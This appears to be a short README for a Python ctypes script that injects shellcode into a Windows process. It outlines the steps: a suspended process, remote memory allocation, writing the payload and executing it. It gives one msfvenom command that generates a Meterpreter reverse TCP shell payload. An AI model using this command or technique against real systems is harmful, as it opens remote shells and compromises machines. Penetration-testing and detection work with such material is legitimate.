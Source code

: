 # Windows Code Injection with Python and ctypes

This Python script demonstrates code injection into a Windows process using the ctypes library. The code covers various aspects, such as creating a suspended process, allocating remote memory, writing shellcode, and executing it in the target process.

# To customize the shellcode, generate your payload using a tool like MSFvenom:

  ```
    msfvenom -a x64 -p windows/x64/meterpreter_reverse_tcp lport=1337 lhost=127.0.0.1 -f py
  ```
